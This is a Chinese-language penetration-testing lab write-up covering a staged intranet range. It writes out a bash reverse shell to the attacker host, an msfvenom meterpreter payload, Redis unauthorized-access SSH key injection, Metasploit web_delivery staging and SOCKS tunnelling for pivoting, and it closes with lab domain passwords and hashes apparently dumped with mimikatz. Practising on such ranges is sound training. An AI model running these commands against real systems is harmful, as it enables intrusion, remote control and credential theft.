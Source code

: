 ### 环境准备

- 物理机:192.168.237.240
- 攻击机kali:192.168.237.250
- web1:192.168.52.10
- web2:192.168.52.20 / 192.168.93.10

- pc1:192.168.52.30 / 192.168.93.20
- pc2:192.168.93.40

### 信息收集扫ip

```cmd
#扫描c段的ip
nmap -p 1-65535 192.168.234.211
```

- 排除自己的资产

<img src="./assets/image-20241118090843272.png" alt="image-20241118090843272" style="zoom:50%;" />

- 发现`192.168.237.211`开启了`22`,`80`,`81`,`6379`端口

```cmd
#目前可以攻击的方案
1.22端口ssh爆破(这里不使用,因为在配置环境的时候已经知道密码了,没意义)
2.80,81web端口,看看是否存在web漏洞利用
3.6379猜测redis可能存在未授权访问
```

### redis未授权访问

- 在kali上生成公钥

```bash
ssh-keygen -t rsa -C "crack@redis.io"
```

<img src="./assets/image-20241118091555694.png" alt="image-20241118091555694" style="zoom:50%;" />

```cmd
cd /root/.ssh
ll -si
(echo -e "\n\n";cat id_rsa.pub;echo -e "\n\n") > key.txt
```

<img src="./assets/image-20241118091832251.png" style="zoom: 50%;" />

```bash
#清空redis
redis-cli -h 192.168.237.211 flushall
#登录redis
redis-cli -h 192.168.237.211 -p 6379
```

<img src="./assets/image-20241118092839792.png" alt="image-20241118092839792" style="zoom: 50%;" />

- 这里发现没权限,没办法

### 更换web尝试

- `80`端口尝试扫目录发现没有东西,主页打开都是`404`

- `81`端口看到了`laravel`框架

<img src="./assets/image-20241118093754415.png" alt="image-20241118093754415" style="zoom: 33%;" />

- 扫描发现存在`CVE-2021-3129`远程命令执行漏洞

<img src="./assets/image-20241118094603114.png" alt="image-20241118094603114" style="zoom:50%;" />

- 执行命令反弹shell

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.237.250/8888 <&1'
```

<img src="./assets/image-20241118101229901.png" alt="image-20241118101229901" style="zoom: 50%;" />

- 反弹成功

<img src="./assets/image-20241118101301510.png" alt="image-20241118101301510" style="zoom:50%;" />

- 上传webshell方便后续操作

![image-20241118102144458](./assets/image-20241118102144458.png)

<img src="./assets/image-20241118102211993.png" alt="image-20241118102211993" style="zoom:50%;" />

### 提权

- 利用shell提权

![image-20241118113910491](./assets/image-20241118113910491.png)

```bash
#使用交互式bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### docker逃逸

```bash
msfvenom linux/x86/meterpreter/reverse_tcp LHOST=192.168.237.250 LPORT=6667 -f elf > shell_1.elf
```

![image-20241118130409915](./assets/image-20241118130409915.png)

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDDichPeEwPhKjsczaVPFqLKAmaY5Su6oSo9AW5DZTHw root@kali
```

一言难尽…

### 回到redis未授权

```bash
# 1. 生成 RSA 密钥对
ssh-keygen -t rsa

# 2. 将公钥保存到 key.txt 文件中
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt

# 3. 将公钥上传到 Redis 服务器
cat key.txt | redis-cli -h 192.168.237.211 -x set xxx

# 4. 连接到 Redis 服务
redis-cli -h 192.168.237.211 -p 6379

# 5. 配置 Redis 数据目录和文件名
config set dir /root/.ssh
config set dbfilename authorized_keys
save

# 6. 退出 Redis
exit

# 7. 通过 SSH 登录目标机器
ssh 192.168.237.211
```

![image-20241118140505371](./assets/image-20241118140505371.png)

### 内网信息收集

![image-20241118141136909](./assets/image-20241118141136909.png)

- 在web1上安装`nmap`,c段扫出两台主机`20,30`

<img src="./assets/image-20241118143317856.png" alt="image-20241118143317856" style="zoom: 50%;" />

### 端口转发

```bash
# msf上线
use exploit/multi/script/web_delivery
set target 7    # 选择目标系统
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.61.15
set lport 1111
exploit
# 将生成的代码放入web1执行
# 查看会话
sessions
# 添加路由
route add 192.168.52.0 255.255.255.0 1
# 打印查看
route print
# 回到会话
sessions 1


# 工具准备(kali)
git clone https://github.com/idlefire/ew
# 上传文件(进入meterpreter)
upload ew/

# 在kali执行(需要赋予权限)
./ew_for_linux64 -s rcsocks -l 1080 -e 1234
# 在web1执行(需要赋予权限)
nohup ./ew_for_linux64 -s rssocks -d 192.168.1.9 -e 1234
```

- 如图

![image-20241119200455896](./assets/image-20241119200455896.png)

![image-20241119200521955](./assets/image-20241119200521955.png)

- 在浏览器配置代理`socks5 127.0.0.1 1080`

<img src="./assets/image-20241119200629665.png" alt="image-20241119200629665" style="zoom:33%;" />



- 成功访问到`52段网络`

![image-20241118154401519](./assets/image-20241118154401519.png)

- 上传shell

<img src="./assets/image-20241118154436493.png" alt="image-20241118154436493" style="zoom:33%;" />

- 发现system权限,拿下第二台主机

<img src="./assets/image-20241118154545147.png" alt="image-20241118154545147" style="zoom:33%;" />

### 横向移动

- 发现`192.168.52.30`这台主机还有93段的网卡

- 上线cs获取domain

![image-20241118160558864](./assets/image-20241118160558864.png)

以下是从 `mimikatz` 输出中提取的账号和密码信息：

###  **管理员账户 (Administrator)**  
- **用户名**: Administrator  
- **域名**: WHOAMIANONY  
- **密码** (明文): `Whoami2021`  
- **NTLM哈希**: ab89b1295e69d353dd7614c7a3a80cec  
- **SHA1哈希**: 2bc4124300a6a8fc0ca10891823d36c64e4b3a40  

### **用户账户 (bunny)**  
- **用户名**: bunny  
- **域名**: WHOAMIANONY  
- **密码** (明文): `Bunny2021`
- **NTLM哈希**: cc567d5556030b7356ee4915ff098c8f  
- **SHA1哈希**: 3747632756191e3350e53211c63f804eb163638f  

